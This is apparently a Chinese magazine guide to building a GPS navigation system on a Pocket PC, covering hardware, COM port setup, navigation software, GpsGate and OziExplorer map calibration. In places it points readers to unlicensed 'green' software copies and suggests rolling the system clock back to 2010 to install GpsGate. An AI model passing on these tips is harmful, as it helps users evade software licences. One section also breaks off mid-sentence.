一是便携性好，使用灵活。PPC体积小巧有利于随身携带，当然也可方便地安装在汽车、自行车等交通工具上，适合不同人群的各种应用需求（图2所示为一款典型的PPC GPS系统）。

二是PPC采用开放系统，安装各种GPS应用软件、地图更新都很方便，而且可以一物多用。通过使用相关软件，PPC本身可以实现商务、娱乐等各种应用，让我们充分享受到DIY的乐趣，笔者个人认为，这一点也是使用PPC组建GPS系统的最大优势。

三是总体拥有费用较为低廉。现在市场上各种专用GPS系统的价格都比较高昂，而且在获得后续服务上（比如更新地图等）还要持续付出金钱，对一般用户而言，显然是不合算的，而PPC GPS系统的硬件、软件、使用成本都不算太高。

当然PPC GPS也存在一些缺点，比如使用环境不能太恶劣，电池续航能力不强等。另外有些朋友可能还会问到，对于采用PALM、Linux、Symbian等其他操作平台的掌上电脑（智能手机）是否也可以用来搭建GPS系统呢？回答是肯定的，但是在这些掌上电脑上，相关软件的丰富程度就大大比不上PPC了。因此，综合各种因素看，一般普通个人用户，使用PPC组建GPS应用系统是使用最灵活、适用面最广的方案。

## 二、用 PPC 搭建 GPS 系统的硬件组成

通过上面的叙述，我们基本上清楚了为什么要用 PPC 来组建个人 GPS 系统，下面我们再来看看用 PPC 搭建 GPS 系统的具体硬件组成。

## 1. 内置 GPS 接收模块的掌上电脑和智能手机

过去的掌上电脑如需和 GPS 连用，通常都需要用独立的外接 GPS 模块，使用上不太方便。如今，由于 GPS 应用日益普及，且用 PPC 平台组建 GPS 系统存在诸多优势，因此市场上出现了不少集成了 GPS 模块的 PPC 掌上电脑及智能手机。下面就为大家简单介绍几款代表产品：

国内市场上最早出现的 PPC GPS 产品应该是神达 Mio 168，随后推出了改进信号接收效果的 Mio 168D，和横屏显示的 Mio 169，另外 Acer N35 也带有 GPS 功能，还有国内的哈普 Hapo608 等。现在国内市场上比较热门的 PPC GPS 产品有多普达 P100、Mio 350、华硕 632/636 等几款，价格大约在 2500 ~ 4500 元之间。这些产品都集成了最新的第三代高感度 GPS 信号接收系统，其中多普达 P100 和华硕 636 还集成了蓝牙和 WIFI 芯片，功能就更加丰富了。

以上几款产品各有特点：多普达 P100 体积小巧，功能齐全，价格适中，但屏幕偏小，CPU 较慢（如图 3 所示）。

华硕 632 GPS 信号接收能力出众，但没有集成 WIFI 功能，而 636 虽然功能强大，但价格偏高（如图 4 所示）。Mio 350 价格最为便宜，还内置了 512M 闪存，但蓝牙 WIFI 全部欠奉，功能较弱。

目前智能手机和掌上电脑已经没有什么区别了，智能手机其实就是集成了手机模块的掌上电脑，是今后手持设备的发展趋势。目前国内市场上有几款 PPC 智能手机还集成了 GPS 功能，分别是 HP hw6515 和 MIO A700。这两款产品的具体配置和主流掌上电脑区别不大（比较遗憾的是 HP6515 屏幕分辨率为非标准的 240 × 240），另外 HW6515 为发挥手机模块的功能，采用了所谓“A-GPS”技术，中文意思是“网络辅助全球卫星定位系统”，这是一种结合网络基站信息和 GPS 信息对移动台进行定位的技术，通过结合 GSM 网络的定位及短信等功能，进一步增强了 GPS 功能，也是目前市场上的热门产品。其他还有 TATO588-E 博士，是在 CDMA1X 网络下工作的 GPS 手机等。鉴于这些 PPC（GSM）+GPS 集成机型的具体规格及选购要点不是本文重点，这里就不详谈了，感兴趣的朋友可自行上网搜索。

## 2. 掌上电脑（智能手机）+外置 GPS 接收模块

上面介绍的几款产品都是在标准掌上电脑的基础上整合了 GPS 功能，从而让 GPS 从专业应用走向生活化，使用也更加方便，是今后的发展趋势，也是组建 PPC GPS 系统的首选装备。但是由于种种原因，有些朋友可能需要购买没有集成 GPS 功能的 PPC，或者要为过去购买的 PPC 扩充 GPS 功能，那么就需要用到外置 GPS 接收模块了。

### (1) 外置 GPS 接收模块的选购

单独的 GPS 接收器和 GPS 手持设备不同，它只负责接收卫星信号，将所需数据传递到 PDA，由相应的软件进行处理。根据 GPS 与 PDA 之间的接口类型，GPS 接收器主要可分为三类：GPS MOUSE、CF 卡式 GPS 和蓝牙 GPS。GPS mouse 的数据接口主要为 RS232、PS/2、USB 口三种。可通过专用转接线与 PDA 相连使用。CF GPS 设备插在 PDA 的 CF 扩展槽中，通过 PDA 供电，二者联系紧密，携带方便，非常适合车载和一般休闲旅游。蓝牙 GPS，通过蓝牙与 PDA 连接并传输数据，它适用范围广，只要是具有蓝牙功能 PDA，包括 PALM，都能使用。

具体选择什么类型的 GPS 接收器与用户使用的掌上电脑有关，如果你的 PPC 既没有 CF 插槽，也没有蓝牙，那么只能用 GPS mouse。如果只有 CF 插槽，没有蓝牙，可以购买带 SD 插槽的 CF GPS，或 GPS mouse。 如果没有 CF 插槽，只有蓝牙，可购买蓝牙 GPS。如果是双卡插槽，没有蓝牙，当然购买 CF GPS 。如果是双卡插槽，并且有蓝牙，建议你购买 CF 接口的产品。CF 接口 GPS 接收器最大优点是能固定在掌上电脑上，使用起来与内置 GPS 模块的掌上电脑类似，十分方便。当然蓝牙 GPS 也有其优点：其自带可充电电池，不消耗掌上电脑的电能，同时蓝牙 GPS 可接多种主机平台而无需专门的驱动程序（如图 5 所示）。选购 GPS 模块关键要注意使用的芯片类型，不同 GPS 产品在性能上的差异主要取决于核心芯片，目前首选采用 SiRFstar III 芯片（即三代芯片）的产品。另外还要注意产品体积大小，电池使用时间等，以及是否有内置闪存储存，用来卫星数据，如卫星信号状态、上次使用的最后位置、日期及时间并随时更新，可有效缩短定位时间。

小提示：单 CF 接口的掌上电脑如何使用 GPS

喜欢旅行的朋友，用掌上电脑配合GPS接收器来导航是比较常见的做法。但有些较老的掌上电脑只有一个CF插槽，而且没有提供蓝牙等其他连接功能。这样在使用CF GPS接收器时就存在一个大问题了，由于接收器占用了原本用来插存储卡的CF插槽，庞大的地图数据就没有地方放了（不可能都放在内存中）。那么在这类掌上电脑上如何顺利使用GPS呢？当然我们可以通过转接线，使用专用接口的GPS接收器，但这样就多出一大堆线，感觉未免不太方便。

更好的方案是用HAIcom公司最新的CF GPS接收器HI-305N（如图6所示），这款产品有可以调节方向的天线以及可以变成GPS-mouse的特性，除此之外HI-305N还有一个最重要的新功能就是其侧面有个SD卡插槽，很显然这样的设计对于很多只有CF卡槽的掌上电脑是一个很好的GPS解决方案，有了这款HI-305N，就不怕没有空间来储存地图了，是不是很爽呢？

##### (2)外置GPS接收模块的使用

GPS接收器在掌上电脑的安装使用非常简单，对于蓝牙GPS，首先把电源开关打开，指示灯开始闪烁，然后打开掌上电脑的蓝牙管理器，搜索设备。搜索完成后输入匹配码，完成配对。再选择串口服务，并且使用安全加密连接。连接完成后在GPS软件的设置里调整好串口参数和速率，就可以定位了。使用蓝牙GPS时并不需要安装任何驱动程序。有些朋友总是很难搞定蓝牙GPS与PPC的连接，其实关键就是两点：一是蓝牙配对，二是确认蓝牙GPS跟PPC连接使用的具体COM口。下面再谈谈微软Windows Mobile5.0操作系统连接蓝牙GPS的方法：

由于WM 5.0操作系统已经在系统内集成了蓝牙管理驱动，所以一般的WM 5.0 PPC已经看不到类似第三方提供的蓝牙操作界面。而微软的蓝牙管理界面十分简陋，有一些朋友在用WM 5.0的机器连接蓝牙GPS时遇到不少的麻烦。如果是这样，请按照下面的方法操作：

首先进入蓝牙设置，选择蓝牙打开，并且选择“使此设备可被其他设备检测到”并建立新的合作关系，让设备搜索一下你的蓝牙GPS设备。如果搜索不到，可以重新打开GPS，然后刷新一下，注意一定需要输入配对码才可以通过的，比如输入“0000”。随后会找到一个“串行端口”，然后点击完成。这样GPS设备添加到你的PPC里去了。注意接下来还要设置com端口，进入com端口界面，点击“新建发送端口”和“接收端口”，选择要添加设备名，择默认的连接为作为“发送端口”。请记住这个端口，比如默认为COM6，那么在导航软件里就按照COM6来设置即可。如图7、图8所示。

CF接口的GPS接收器在使用时则先需要在PPC上安装相应的驱动程序，生成虚拟串口后才能使用。而GPS mouse不需要安装驱动，接好转接线后，通常选择COM1即可。从这里大家也可以看到，不管外置GPS装置如何号称使用简单，对掌上电脑不太熟悉的朋友来说都是有些麻烦的，因此搭建PPC GPS平台的最好还是选择内置GPS模块的产品。

另外通过特制的数据线，手持GPS也可以作为PPC的接收机，在PDA的电子地图上实现定位和数据记录，同样，在PPC上设计的路径（ROUTE）和路点（WAYPOINT）也可通过数据线和储存卡传到手持GPS上，所以，综合考## 三、“傻瓜类”导航软件应用简介

对于大多数有车一族而言，在PPC GPS平台上使用最多的就是GPS导航软件了。GPS最贴近生活的用处不在于定位功能，而在于导航功能，可以为你指引正确道路，所谓导航功能就是会带领你去你想去的地方，所有傻瓜类导航软件有两个基本特点：一是地图都是矢量地图（只有这样才能实现智能导航），二是都具备语音功能（驾驶汽车时的基本安全要求，你不可能总去看PPC屏幕）。因此不具备导航功能或导航功能很弱的专业GPS手持机，不适合普通人士使用。PPC上的导航软件不算太多，目前主要有以下几款常用导航软件：

- 中国内地：天行者、城际通、凯立德（可在smartphone上使用）等。
- 中国港台地区：Mapking、PapaGo等。
- 国外：tomtom等。

从软件本地化，尤其是地图资源的本地化出发（离开地图资源，导航软件毫无用途），本文主要介绍天行者和城际通的使用。这里要申明一点，由于导航软件的开放需要耗费大量人力物力，因此这类软件的价格也比较高，大多在几百元以上，因而不可避免会出现各类“破解版”。我们倡导使用正版软件，因此对于“破解版”安装等相关问题，本文不会过多涉及。要省钱的话，可以在购买GPS硬件设备时，配套购买GPS导航软件，往往能获得较大优惠。

###### 小技巧：PPC使用USB GPS MOUSE

联想ET560/夏新E850这两款PPC智能手机产品的USB口支持USB HOST功能，如果你手上有现成的USB GPS MOUSE，可以按下面的方法进行使用：

- 关键是要作好下面两项工作：一是购买或制作一根usb-host线，使得手机可以连接普通USB设备（具体如何制作需获得接口针脚定义的相关资料，对于ET560而言，可以参考本刊《PPC智能手机使用技巧十二讲》一文）。二是找相应的驱动程序，比如你需要找到ce_pl-2303hx-x_arm_1008.cab、hid.arm.cab这两个驱动并安装。安装完成后你就能使用相应的GPS导航软件进行导航了。

###### 小知识：GPS通信协议问题

GPS MouseUSB接口的GPS接收机也被称为GPS Mouse，价格最便宜。GPS Mouse中有一个串口/USB口转换芯片，原因在于GPS数据接口协议NMEA-0183，这一协议把GPS的数据接口定义为4800bps的串行数据总线。绝大多数的电子地图软件都通过NMEA V2.0以上标准读取串口上的GPS信息。如果GPS直接设计成USB口，就会有兼容性问题。事实上，CF口和蓝牙的GPS接收机也都要模拟成串口，才能被电子地图软件识别。除了NMEA数据接口协议外，最为知名的是Garmin公司GPS的专用Garmin协议。Garmin自己的地图软件都只支持Garmin协议，另外Google Earth Pro/Plus和OziExplorer目前也支持Garmin协议。

### 1. 天行者

#### (1) 概述

天行者是北京灵图公司的开发的一款优秀GPS导航软件，分PPC和PC两个版本，从3.0版后开始受到市场广泛关注。天行者更新速度比较快，目前最新版本是5.0，已经成为内地GPS导航软件的龙头产品。

天行者以大比例尺的城市导航地图为展示平台，内含丰富的点位信息供您查询，根据您的不同需求智能的设计出多种最佳行车路线，并提供实时的语音提示导航功能。最大优点在于地图详尽，定位准确，导航功能强，界面友好（如图9所示）。缺点主要是速度较慢，地图压缩率较低，而且售价昂贵，安装复杂。

天行者模仿了GPS车载机的界面风格，十分容易上手。为了方便驾车时的操作，天行者将主要的按键都设计成大按钮，让使用者可以用手指直接控制，而不需要使用触控笔。天行者具有行进线路规划功能，只需要设置好目的地，就能自动计算出行进路线。点击“周边设施”，屏幕上就会显示出当前位置周边的各种场所信息，你可以方便地选择需要的设施，并且将其设为目的地。天行者还设计有语音导航系统，能实现全程语音导航，每当需要转弯或上下高架桥时，天行者都会用甜美的女声告诉你应该如何。

#### （2）软件安装和使用

出于防盗版目的，正版天行者安装十分麻烦，安装时需要填写注册码，安装后还要上网申请激活码，如果你对电脑不是很熟悉，常常不能一次安装成功。不过天行者可以选择同步安装或者用读卡器直接安装在储存卡上，这点比较人性化。如果把全部地图安装完，至少要准备一张512M的存储卡。如果在使用“天行者”时，提示地图数据载入失败，有两种可能：一是用户的地图数据与版本不匹配，用户混用了其他版本的地图数据，建议先把SmartGuider\Temp\SMG_SysSetting.bin文件删除，然后再运行天行者。如果用此方法还不行的话，最好卸载后重新安装一遍；二是所装软件的地图存放路径设置可能有误。

天行者的使用十分简单，首先设置好GPS端口等相关参数，其他还有语音播报设置，分录音播报、TTS播报、混音播报等，可根据用户自己的习惯和需要进行设定；另外对语音播报的声音的大小也可以方便的随意调节；用户还可以根据自己要求设定语音提示的频度：低频、中频、高频。道路行车智能显示，精确到路口距离，每个路口放大提示，然后定位汽车目前所处位置，再选择好要到达目的地，系统即可自动计算出行车线路，你还可以先了解一下行车线路的具体情况。然后开车上路，按系统语音指示行车即可。

用户在行驶过程中保存的行车轨迹都存放在“\smartguider\track”文件夹下。轨迹格式是灵图公司特有的格式，如果用户想编辑轨迹可以执行轨迹导出操作，轨迹导出后自动变成公开的mif格式，可以用mapinfo等软件修改。轨迹导出和导入的默认目录是“\smartguider\temp”。

灵图天行者从V4版本后有两种工作模式：定位模式和导航模式，在定位模式下，系统不能设定路线，天行者在这种模式下可以实时准确地定位车辆的当前位置，该模式对于爬山、郊游等活动非常适合。

最后提一下，如果你使用天行者V5的话，最好配合PC上用的《中国电子地图2006》这款软件，该软件具有强大的路书编辑功能，主要有：路书导入、路书导出、制作路书、上传路书、下载路书、将路书写入天行者5等。所谓“路书”是北京灵图软件技术有限公司为广大用户出行旅游、定位导航、介绍自己感兴趣的信息而定义的一种文件。一条“路书”包含轨迹、信息点、图片、声音、视频等信息，可以叠加显示在地图之上，可视化展现行车路线、途径信息介绍、路径点的介绍信息等。用户制作的路书可以上传到路书共享平台与网友共享，也可以导入天行者进行导航。

#### (3)采用PPC操作平台的车载导航设备及手持机

最后简单介绍一下，在PPC平台上，除了上面介绍的两种GPS组建方案外。目前市场上也有一些采用Windows CE 4.2/5.0为核心操作系统，但去除PPC标准应用程序（如Excel，Word等），并使用专门操作界面和硬件设计、以车载应用为主的GPS产品，如宇达电通推出的Mio 269和Mio 136；京华数码的PMP-5000；新科的GM-701C；e路航导航仪等。此外，市场上甚至还有采用Windows CE核心的专业手持GPS接收器。这些产品的功能特点介于专业GPS设备和PPC GPS平台之间。既有较强的专业性，又有一定的扩充能力（也可以安装使用本文下面将介绍的部分GPS应用软件）。但这类产品价格普遍较高，对于普通个人用户而言，并没有太大的购买价值，这里就不再详谈了。

###### 小提示：用FM音频发射器扩大音量

前面提到的导航软件，尤其是车载导航软件在使用时，出于安全目的，一定要使用语音功能，但是PPC喇叭的发音都比较小声，在汽车上常常无法听清楚，这时我们使用一个小配件：FM音频发射器，就能有效解决这个问题，使用FM发射器时，你可以用车载收音机接收其发射的音频，从而有效扩大音量。

### 2. 城际通

#### （1）软件特点及概述

在国内，和天行者齐名的GPS导航软件非“城际通”莫属了。城际通也是北京一家公司出产的产品，和天行者不同，城际通目前还不是一个纯软件产品（其界面如图10和图11所示），正式产品要和配套的GPS接收器一起购买，不过也有商家将其单独出售。读者也可以上网搜索其“绿色版”。

城际通的主要功能和天行者差不多（如图12所示），如：具有全国范围内城市及乡村地图浏览查询；按照道路、地名、设施、交叉路口、经纬度、城际通编码的分类检索查询；拼音输入及五笔汉字输入模糊查询目的地；全国范围内任意两地之间的指路导航，如支持从乌鲁木齐到广州的全程导航；可按“最短时间”、“不走高速”和“最短路径”三种不同方式进行路径规划；轨迹返航功能，可按照已存轨迹直接引导返航。行车途中随时能够知晓当前所在位置，包括经度、纬度、高度、剩余里程、剩余时间、所在省份、所在地市、所在区县等；全程语音指导性提示，真正做到路名播报；地图显示方向与行车方向一致等。现在网上有很多网友在争论天行者和城际通的优劣，这两款软件笔者都使用过，二者在功能上总体差距不大，但是新版的天行者的地图比城际通更精细（至少在笔者所在的成都市是如此），而且天行者的操作界面也要优于城际通，但是，城际通在核心导航能力（智能化）和TTS语音效果上，则要优于天行者。如何选择就看你自己的需求了。

#### （2）软件安装使用

前面提到，城际通非单纯软件产品，因此如果不使用配套硬件的话，在安装上要特别注意一点，就是需要使用虚拟的 GPS 端口，而不能用 GPS 的物理端口。因此要成功安装城际通的关键就是先要安装 “GpsGate” 这款软件。这款软件不仅能够和城际通配合使用，而且还能让多个 GPS 软件同时运行。下面谈谈其具体安装使用方法。

在掌上电脑上玩过 GPS 的朋友都会发现一个问题，就是多个 GPS 软件无法同时正常运行，因为每个 GPS 软件对 GPS 端口都是独占的，率先运行的程序占用 GPS 端口后，将导致其后运行的程序无法再打开同一个 GPS 端口，从而无法正常运行。这就带给我们诸多不便，因为每个 GPS 软件的功能都不是完美的，我们常常需要同时运行多个不同的 GPS 软件，以实现不同的功能。比如有些主要用于导航，而有些主要用于定位。

好在这个问题并非是无法解决的，我们可以使用 GpsGate 这款软件来让不同的 GPS 软件同时利用一个 GPS 端口。具体方法如下：

运行 GpsGate,首先进入设置（setting）界面，如图 13 所示。在 input 下选择 com port,再选择你掌上电脑中 GPS 使用的物理端口，通常内部集成 GPS 模块的一般为 COM2，使用转接头连接的一般为 COM1，而使用蓝牙连接的为 COM5 或 COM6，若不清楚可用 GPSVIEWER 等软件扫描，波特率选择 4800，点击 Open 选项，使之变为灰色而不能再更改，如图 14 所示。

然后在 output 中选择 Virtual ports,在 Add virtual port 任选一个可用的 COM 口（比如 com8）；最后在 Retry connection 项选择 on timeout，如图 15 所示。这一选择的含义是，丢失 GPS 信号超时后自动重新连接，设置完成后点击右上方的 OK 即可。

这样 GpsGate 的设置全部完成，将在后台运行。随后运行其他 GPS 软件，将 GPS 端口全部选择为刚才添加的 virtual port（如 com8）即可同时正常运行。另外使用 GpsGate 还能让某些必须使用特定 COM 口的 GPS 软件（如“城际通”）正常运行。具体步骤，与上面类似，这里不再多说。大家不妨一试。

目前 GpsGate 推出了新的 2.01 测试版，可以虚拟串口，把 GPS 信号转发到 IP、蓝牙（让内置 GPS 接收器的 PPC 也成为 GPS 蓝牙了）ActiveSYnc 同步、功能强大！十分稳定，有开机自动加载功能。配合 GPRS 或 CDMA 上网，任何一台装有 GpsGate 的电脑连接到你的 PPC IP 地址，就可以跟踪你的汽车位置。

GpsGate 的工作流程如图 16 所示。为了顺利安装，大家在安装时不妨将系统时间调到 2010 年，安装完成后再将时间改回。

另外提一下，在 WM 5.0 中自带了 GPS 端口设置工具（start-settings-system-gps），可以实现 GpsGate 的大部分功能。安装成功后你使用“城际通”的任务就完成了大半，至于“城际通”的具体使用和“天行者”没有大的区别，很容易上手，这里就不多谈了。

###### 小技巧：合理设置按键 单手操作 PPC

我们在 PPC 上使用 GPS 软件时一般要同时启动多个 GPS 软件，建议你安装一款名为 ALTTAB 的小软件，然后将合适的按键分配给它，就可以简捷地在多个 GPS 软件中进行切换了。另外还可以将侧面的录音按键设置为“开始”菜单，并合理设置好其他按键的功能，这样就可以方便地单手操作 PPC 了。

### 3. 其他导航软件简介

前面提到，PPC 上可以使用的导航软件还有很多。除了中国内地常用的天行者和城际通外，还有港台地区常用的“趴趴走！”（PaPaGo!），这是中国台湾地区出产的一款优秀 GPS 导航软件，“Mapking”和“领航星”都采用其引擎设计。其主要优点是导航功能强、速度快，最新的 V10 版本更是具有革命性的“超拟真全景 3D 视野导航”设计，最大缺点是国内地图不详细，因此在中国内地几乎没有实用价值。

趴趴走、MAPKING、领航星，这几款软件由于使用了相同的引擎，使用方法都是差不多的。首先定位好自己的位置，再标明目的地，即可实现导航。趴趴走的语音导航系统相当先进，在到达路口前数百米就会开始不断提示转弯方向，确保行驶线路的准确。其他先进功能还有：导航模式/地图模式双模系统；无段式连续地图缩放；任意角度旋转地图；直线距离测量等，另外还可以标出每一个点的坐标，这样在地图上没有标出地名的地方可也可以根据经纬度在普通地图上找到位置。

国外也有很多功能优秀的GPS导航软件，如Garmin Que（如图17所示）、Destinator3、TOMTOM、Mapopolis、Route 66 Navigate等软件，其功能和性能、地图详细情况等都要优于国内的软件（GPS系统毕竟是美国人开发的东西，而且国外相关政策和市场环境也要比国内宽松很多，汽车的普及程度更是大大高于国内）。比如TOMTOM不仅程序设计优秀，使用简便，而且地图十分详细，北美地图完全版有8 CD之巨。但是限于国内地图资源的限制，这类软件在国内基本上没有用武之地，本文就不再提了。当然如果你打算出国驾车，可以自行研究。希望以后有国内商家能与国外的GPS导航软件开发商合作，推出更多优秀的国内版GPS导航软件。

## 四、OziExplorer CE应用简介

#### 1. 软件特点及安装

在PPC上如果只使用上面介绍的傻瓜式纯导航软件并不能发挥其优势（这样就不如买专用车载导航设备了），下面为大家隆重推荐一款可以自己“DIY”的地图定位软件——OziExplorer CE（后面简称Ozi）。这是一款半专业化的导航软件，最大特点是采用了开放的地图格式，可以自己DIY地图并与他人共享，这样就极大地解决了纯导航软件地图资源不足、更新缓慢地问题，在目前国内专业GPS地图资源十分匮乏的条件下很受广大GPS发热友欢迎。另外Ozi地图使用传统的位图格式，更符合我们日常看地图的习惯。

Ozi无疑是一款“伟大”的地图软件。用一句简单的话来形容就是“可以在地图上定位的软件”。OZI所用的地图是标量（位图）格式，其实就是一张地图图片，然后在上面标上经纬度（即校准）。大家有时候到了陌生的地方，看一般地图也不知道自己具体在哪儿，用Ozi就完全解决了这个问题，只要有地图，不管你在世界上的任何地方它也能告诉你在哪。

我们可以去Ozi官方网站：http://www.oziexplorer.com下载最新的版本，分PPC版和PC版两个部分，二者之间是有紧密联系的（地图通用，PC版有校准功能），另外还有一些制作地图时要用到的辅助工具也可一并下载。这是一款共享软件，需要注册才能无限制使用，当然网上也能找到Ozi的绿色免安装汉化版（ppc），将其拷贝到PDA或者智能手机里马上就能使用。

#### 2. 基本应用

##### (1) 地图制作及校准

Ozi的基本使用并不太复杂，其中关键一点就是如何把一幅JPG格式的地图转换成OZI格式的地图并进行校准。

OziExplorer可自行扫描校准地图，首先我们需使用一款名为Image to Ozf的软件（可去OZI官方网站免费下载，如图18所示），安装该软件后即可把其他图像格式转换为OZI格式。但这只是把JPG格式的地图转换成了精简的OZI格式地图，其中并不包含任何导航信息，必须要为OZI地图加入航点信息，才能使之真正成为导航专用的地图。在PC上打开“OziExplorer”软件，选择“文件”下拉菜单中间的“载入并校准地图图像”。在其中填入九个点的坐标，OZI软件将根据此九个坐标点的经纬度算出其他各处的经纬度，以此实现导航地图的功能，如图19所示。导航精度取决于原始地图的变形系数，变形越大则精度越差。同样也取决于九个坐标点的精确度。原始地图除了可以通过扫描得到，这里推荐大家使用“电子地图一把抓”软件，来抓取目前国内最好的电子地图，如“全中国电子地图”，可以获得很好的效果。如果你不想自行校准地图的话，网上也能找到很多现成的地图资源。使用OZI软件也可以充分体现“人人为我，我为人人”的互助思想。

##### (2) PPC上的使用

把经过校正的当地地图拷贝到PPC的内存或存储卡（注意有两个文件，一个是*.map的校准文件，另一个是*.ozf2的地图文件，两个文件名要对应），接着进入File → Open Map File打开地图，如图20所示。

File → Configuration → NMEA（GPS）中设定你的GPS硬件通信端口，COM口可以用GPS VIEWER类软件自动扫描获得，你的要根据实际情况进行设定，其他设定都不改变，用默认的就可以了。最后激活 GPS 接收，点击屏幕最下方中间位置那个“闪电+GPS”图标即可，激活后，可以点 Map → Satelites，出来卫星图，查看搜星情况，如图21所示。 定位成功后，地图上会在相应的位置显示指示箭头，这时你就能知道你的具体位置了，如图22所示。

要注意在 GPS 定位以后，OZI 能够自动查找其地图系统里的地图库。查找的目录需要首先指定，否则即使 GPS 定位了也找不到地图。同样在“配置” → “系统”里，其中的“文件路径”的“地图文件路径”一项必须设定正确。

## 2. 高级应用

OZI 主要是一个地图定位软件，其导航能力不强，但是也可以通过行前规划，或顺着别人的 TRACK 实现一定程度的语音导航功能。这里不是自动规划路线的，要自己设置点去引导，所以适合于用别人或者自己走过的 TRACK 再次顺着 TRACK 去语音导航。具体而言，首先要先加载 SOUND FILES 文件到 CE OZI 文件里，在 Track 上重要的地方打上 Waypoint（路点），OZI 会自动递增编号，把这些点编在一个 Router 里。

接着打开 GPS，OZI 会在当前位置和 Router 的第一个 Waypoint 画出一条直线，等你到了第一个 Waypoint 后，语音会提示你怎样到第二个 Waypoint，如此类推。PPC 版提示很详细，向右前方、向右、向右后方，距离多少米都可以提示。有一点要注意的是 Proximity（路点的可能半径）设定，如果 Track 很清楚，这个值可以小些，比如 20 米，反之则需要大些，否则你已经经过了第二点，OZI 没识别，以后就不能依次导航了。

如果你的存储卡上保存有多幅地图，OZI 中的地图是可以做到无缝连接的。点击“设置” → “移动地图”，选中详细地图，有一个“自动切换详细地图”选项，可以自动切换到经纬度合适的最详细的地图。

使用 OZI 也可自动记录下实际的运行轨迹，这样下次再走这条路时就可以直接调用了。因此在使用 OZI 程序时，我们要记得要把有用的数据（如轨迹、航点等）保存下来，否则就前功尽弃了。保存记录的方式很多，最简单的方法就是使用快捷按键。使用地图上面的“航点”、“航迹”等按键，就能够直接保存相应的数据记录了。例如，需要保存航迹，点击“航迹”键，就出现保存的窗口了。

好了。如果上面讲的内容你都能够掌握并且使用正确无误，那么恭喜你，你已经可以正确使用 OZI 系统进行 GPS 定位和简单的导航了。

总之 OZI 是非常好的一款软件，地图丰富，定位准确，对各种型号 GPS 的兼容性好，又有很多热心的 GPS 发烧友在不断丰富地图资源，是一款真正的发烧级软件。其缺点是智能导航不好，需要动手能力强，这可能恰恰就是这款软件的魅力所在。 现在网上有不少朋友在争论 OZI 和天行者这类傻瓜导航软件的优劣问题，其实二者是不可简单替代的，如果你多在大城市和国道上开车，且不喜欢麻烦，那么使用傻瓜类导航软件是很好的选择，但是如果你经常在傻瓜类导航软件没有覆盖的小地方活动，那么 OZI 也许是你惟一的选择。因此，大家完全可以将二者结合使用，互为补充。

##### 小技巧：巧取百度大地图

最近在使用 OZI 软件玩 GPS 的过程中感觉获得大尺寸地图不太容易。后来发现了一个从百度地图服务中获取超级大地图的方法。百度提供的地图服务还算不错，但显示地图的尺寸只有 680 × 450，显然用于 OZI 软件是不够的。我们可以用下面的方法来获取大尺寸地图：
进入地图，选择你需要地区的地图，等显示完地图后，从 IE 菜单中选择“查看” → “源文件”命令。其中有一句类似以下的指令：

```
<iframe frameborder='0' id="mapid" name='mapletframe'src='http://baidu.mapbar.com/baidu/show.jsp?width=680&height=450&cityCode=028' width='680' height='450' scrolling='no'></iframe>
```

把其中加黑的部分复制下来，新开一个 IE 窗口，再把刚才复制下来的文字粘贴上去，尝试将“width=680&height=450”中这两个数据改大一点，比如“width=2000&height=1500”，然后回车，你就能看到足够尺寸的大图了。但是这里显示的大地图是由很多小图片拼起来的，要完整保存下来还得想点其他方法。你可以安装一个用于制作 PDF 文件的虚拟打印机，在 PDF 虚拟打印机中自定义一张与显示图片同样大的纸，然后再用 IE 打印命令，打印出一个 PDF 文件，最后用 PHOTOSHOP 导入该文件，就能得到一张完整的大地图，并在 OZI 中使用了。

## 五、手持机类GPS软件应用情况

前面谈到了 PPC 上傻瓜类导航软件和电子地图软件的使用情况，但是如果你仅仅使用这两类软件的话还是没有充分发挥 PPC GPS 平台的优势。下面再给大家介绍一下 PPC 上手持机类 GPS 软件的应用情况，通过安装合适的软件将 PPC 变成价值数千元的专业手持机。看了本文接下来的内容，才能真正让你体会到本文标题“将 PPC 打造成最强 GPS 装备”的真正含义。

所谓手持机软件就是 GPS 接收及定位软件，简单地说就是将掌上电脑变成一个专业 GPS 接收器，在 GPS 软件应用方面不光有导航软件，还有许多应用程序用于各种专业领域。可以不依赖地图实现导航，比如可在地图粗略，或只有地名坐标，而道路不明确的情况下，利用定位和指向功能到达目的地。PPC上这类软件非常多，比如GPS315、Sportrak、etrex、STP3，GPSLOOker等，如图23所示为笔者安装的各种GPS软件。本节主要为大家介绍VITO Navigator II、GPSDash和GPS Tuner三款优秀的PPC手持机软件。

#### 1. Navigator II

这是一款很不错的手持机软件，不仅能显示速度、经纬度、海拔等基本GPS数据，还具备指南针、目的地距离显示、星图等功能，并且能通过航点的设定来导航，且能用图的方式记录下你行进的轨迹，是户外活动时的好帮手。建议“驴友”们一定要安装该软件。

第一次启动VITO Navigator II时，软件会自动进入GPS设置中。Autodetect—自动探测：让你的PPC自动探测和设置GPS，选择好以后，就会进入VITO Navigator II主界面，如图25所示。主界面从上至下可以分成3个部分，每部分又各有不同菜单选项。最上面是主要仪表区，有3种显示方式：方向盘（Course）速度表（Speed）和经典视图（Retro）。

其中，方向盘（Course）用于导航时指示前进方向。只要用GPS的头指向前方方向，黄色指针表示转弯方向（左右不超过90度），红色指针表示实际目标方向，相当于导向(Bearing)。另外上面部分还可以显示海拔高度、速度、精度、剩余电量等。

在主要仪表区我们还可以设定为经典视图（Retro），该界面很像手持机界面。在没有使用导航模式情况下，蓝色箭头是你前进方向，周围黄圈表示方向（N-北，S-南，E-东，W-西）。处于导航模式时，将PPC指向前方方向，蓝色箭头表示最近目标方位。

软件界面的中间部分是辅助仪表区，分成左右两部分。点击左边的选择箭头，可以发现有6个选项：Compass（指南针，蓝色表示北，红色表示南）Destination（目的地，在导航时，指示目的地距离，预计还有多少分钟到达TimeToDes，现在时间LocalTime，如图26所示）Sky View（星图，指示所收到GPS信号卫星，黄色代表已经锁定的卫星）Position（目前位置，包括经纬度和海拔）Acceleration（显示运动中的加速度变化）Clock（时间表）。

单击右边选择箭头，还多了这几个选项：Speed Chart（速度曲线表）Odometer（里程表，左边是清零键，右下角是设置键）Altimeter（高度计），如图27所示。要注意这些功能需要安装插件后才能实现。

软件界面的最下面是功能及设置区，点击最左边地球仪图标，会出现轨迹图，如图28所示。在其中能看见记录的轨迹和航点，点击右下角的“设置”（齿轮图标），可以看见轨迹设置选项：Rotate map（旋转地图）Drag map（拖拉地图），还可以保存，加载，清除轨迹。

